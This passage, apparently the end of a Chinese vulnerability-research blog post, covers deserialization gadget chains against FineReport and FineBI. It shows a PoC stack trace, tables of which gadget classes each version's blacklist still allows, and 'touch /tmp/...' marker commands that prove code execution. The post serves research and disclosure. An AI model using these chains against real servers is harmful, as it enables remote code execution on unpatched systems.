	at java.lang.reflect.Method.invoke(Method.java:498)
	at com.fr.third.fasterxml.jackson.databind.ser.BeanPropertyWriter.serializeAsField(BeanPropertyWriter.java:688)
	at com.fr.third.fasterxml.jackson.databind.ser.std.BeanSerializerBase.serializeFields(BeanSerializerBase.java:772)
	at com.fr.third.fasterxml.jackson.databind.ser.BeanSerializer.serialize(BeanSerializer.java:178)
	at com.fr.third.fasterxml.jackson.databind.ser.impl.IndexedListSerializer.serializeContents(IndexedListSerializer.java:119)
	at com.fr.third.fasterxml.jackson.databind.ser.impl.IndexedListSerializer.serialize(IndexedListSerializer.java:79)
	at com.fr.third.fasterxml.jackson.databind.ser.impl.IndexedListSerializer.serialize(IndexedListSerializer.java:18)
	at com.fr.third.fasterxml.jackson.databind.ser.DefaultSerializerProvider._serialize(DefaultSerializerProvider.java:479)
	at com.fr.third.fasterxml.jackson.databind.ser.DefaultSerializerProvider.serializeValue(DefaultSerializerProvider.java:318)
	at com.fr.third.fasterxml.jackson.databind.ObjectMapper._writeValueAndClose(ObjectMapper.java:4719)
	at com.fr.third.fasterxml.jackson.databind.ObjectMapper.writeValueAsString(ObjectMapper.java:3964)
	at com.fr.json.revise.EmbedJson.encode(EmbedJson.java:101)
	at com.fr.json.JSONArray.encode(JSONArray.java:560)
	at com.fr.json.JSONArray.toString(JSONArray.java:590)
	at com.fr.third.guava.base.Functions$ToStringFunction.apply(Functions.java:73)
	at com.fr.third.guava.base.Functions$ToStringFunction.apply(Functions.java:67)
	at com.fr.third.guava.collect.ByFunctionOrdering.compare(ByFunctionOrdering.java:46)
	at java.util.TreeMap.getEntryUsingComparator(TreeMap.java:376)
	at java.util.TreeMap.getEntry(TreeMap.java:345)
	at java.util.TreeMap.get(TreeMap.java:278)
	at java.util.AbstractMap.equals(AbstractMap.java:492)
	at java.util.Hashtable.reconstitutionPut(Hashtable.java:1241)
	at java.util.Hashtable.readObject(Hashtable.java:1215)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at com.fr.rpc.serialization.InvocationSerializer.deserialize(InvocationSerializer.java:81)
	at com.fr.rpc.serialization.InvocationSerializer.deserialize(InvocationSerializer.java:24)
	at com.fr.serialization.GZipSerializerWrapper.deserialize(GZipSerializerWrapper.java:37)
	at com.fr.serialization.SerializerHelper.deserialize(SerializerHelper.java:39)
	at fr.channel.PocFr115.lambda$main$1(PocFr115.java:53)
	at com.fr.security.sandbox.PermissionDomainExecutor.lambda$execute$1(PermissionDomainExecutor.java:67)
	at java.util.concurrent.FutureTask.run(FutureTask.java:266)
	at com.fr.concurrent.transientcontext.core.TransientContextRunnable.run(TransientContextRunnable.java:36)
	at com.fr.third.alibaba.ttl.TtlRunnable.run(TtlRunnable.java:58)
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)
	at java.lang.Thread.run(Thread.java:748)
Caused by: com.fr.third.org.hsqldb.HsqlException: Java execution: com.fr.third.org.hibernate.internal.util.SerializationHelper.deserialize
	at com.fr.third.org.hsqldb.error.Error.error(Error.java:85)
	at com.fr.third.org.hsqldb.Routine.invokeJavaMethod(Routine.java:973)
	at com.fr.third.org.hsqldb.Routine.invoke(Routine.java:1030)
	at com.fr.third.org.hsqldb.FunctionSQLInvoked.getValueInternal(FunctionSQLInvoked.java:174)
	at com.fr.third.org.hsqldb.FunctionSQLInvoked.getValue(FunctionSQLInvoked.java:199)
	at com.fr.third.org.hsqldb.StatementProcedure.getExpressionResult(StatementProcedure.java:278)
	at com.fr.third.org.hsqldb.StatementProcedure.getResult(StatementProcedure.java:127)
	at com.fr.third.org.hsqldb.StatementDMQL.execute(StatementDMQL.java:184)
	at com.fr.third.org.hsqldb.Session.executeCompiledStatement(Session.java:1331)
	at com.fr.third.org.hsqldb.Session.executeDirectStatement(Session.java:1259)
	at com.fr.third.org.hsqldb.Session.execute(Session.java:1024)
	at com.fr.third.org.hsqldb.jdbc.JDBCStatement.fetchResult(JDBCStatement.java:1789)
	... 54 more
Caused by: java.lang.reflect.InvocationTargetException
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at com.fr.third.org.hsqldb.Routine.invokeJavaMethod(Routine.java:956)
	... 64 more
Caused by: java.lang.UnsupportedOperationException: 启用了 Java 安全时, 将禁用对反序列化 TemplatesImpl 的支持。可以通过将 jdk.xml.enableTemplatesImplDeserialization 系统属性设置为“真”来覆盖此设置。
	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.readObject(TemplatesImpl.java:248)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at java.util.ArrayList.readObject(ArrayList.java:797)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:2287)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2211)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at java.util.TreeMap.buildFromSorted(TreeMap.java:2567)
	at java.util.TreeMap.buildFromSorted(TreeMap.java:2508)
	at java.util.TreeMap.readObject(TreeMap.java:2454)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at java.util.Hashtable.readObject(Hashtable.java:1211)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:498)
	at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
	at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
	at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
	at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
	at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
	at com.fr.third.org.hibernate.internal.util.SerializationHelper.doDeserialize(SerializationHelper.java:225)
	at com.fr.third.org.hibernate.internal.util.SerializationHelper.deserialize(SerializationHelper.java:262)
	... 69 more
```

## 0x04 小结

关于后利用，如果实际环境有 h2 的话会方便很多 https://baozongwi.xyz/p/finereport-10-channel-deserialization/#%E8%BF%9C%E7%A8%8B-rce，但是如果没有的话就按照实际情况调整就行了，🙂‍↕️问题不大。

最终情况小结如下，

| 包                              | 名单                                        | 谁去调 toString                                              | POC            | 标记                                                |
| ------------------------------- | ------------------------------------------- | ------------------------------------------------------------ | -------------- | --------------------------------------------------- |
| FineBI 5.1.5 persist-2021.01.23 | 无                                          | `UsingToStringOrdering`                                      | `PocEmpty2021` | `touch /tmp/fr-channel-2021`                        |
| FR11 2022-04                    | 144                                         | 文章：`BadAttributeValueExpException` + `POJONode` + `SignedObject` | 未挖           | —                                                   |
| FineBI 6.1.8                    | 665，MD5 `b3935558df8f848cfa0e99aeb4bc30fb` | `UsingToStringOrdering`                                      | `PocBi618`     | `touch /tmp/fr-channel-bi618`（channel 默认有沙盒） |
| FR10 2026-04 / FineBI 5.1 2026  | 675，MD5 `52d672c76c877766666521b52a5036ae` | 同上                                                         | `PocFr10`      | `touch /tmp/fr-channel-fr10`                        |
| FR 11.5.13 / FineBI 6 11.5.12.1 | 698，MD5 `777ec79ce8e225b9ec28a178e2d4c32f` | `ByFunctionOrdering`                                         | `PocFr115`     | `touch /tmp/fr-channel-fr115`（channel 默认有沙盒） |

|                                                              | 2021 | 2022 144 | 6.1.8 665 | FR10 675 | 11.5.13 698 |
| ------------------------------------------------------------ | ---- | -------- | --------- | -------- | ----------- |
| `PriorityQueue` / `BeanComparator` / `JdbcRowSetImpl`        | 允许 | 禁       | 禁        | 禁       | 禁          |
| `BadAttributeValueExpException` / `POJONode` / `SignedObject` | 允许 | 允许     | 禁        | 禁       | 禁          |
| `TextAndMnemonicHashMap`                                     | 允许 | 允许     | 禁        | 禁       | 禁          |
| `ImmutableSetMultimap`                                       | 允许 | 允许     | 禁        | 禁       | 禁          |
| `UsingToStringOrdering`                                      | 允许 | 允许     | 允许      | 允许     | **禁**      |
| `JSONArray`                                                  | 允许 | 允许     | 允许      | 允许     | **允许**    |
| `DruidXADataSource`                                          | 允许 | 允许     | 允许      | 允许     | **允许**    |
| `ByFunctionOrdering`                                         | 允许 | 允许     | 允许      | 允许     | **允许**    |

看到这里如果他按照建议把新的未禁用的类禁用了还能够有新的 gadget 出现吗，这个答案是肯定的，国内太多 Java 研究的极客了，更何况现在还有 GPT 这样的大手，只要明白我们需要什么类就能挖，感觉后续只能是把这个功能间接或直接的禁用，比如加鉴权（现在就已经加了），或者是重构🥸

> [被当成Shiro的FineReport反序列化](https://baozongwi.xyz/p/finereport-10-channel-deserialization/)
>
> [yulate / SUCTF2025 SU_ez_micronaut](https://www.yulate.com/post/suctf2025-chu-ti-ji-lu/#su_ez_micronaut)
>
> [xz Finebi反序列化](https://xz.aliyun.com/t/13389)
>
> [xz 帆软HSQL二次反序列化](https://xz.aliyun.com/t/15432)
>
> [红细胞 帆软反序列化及沙箱绕过](https://mp.weixin.qq.com/s/9PxsM62-Jcgv9eMldli9fA)
>
> [ysoserial](https://github.com/frohoff/ysoserial)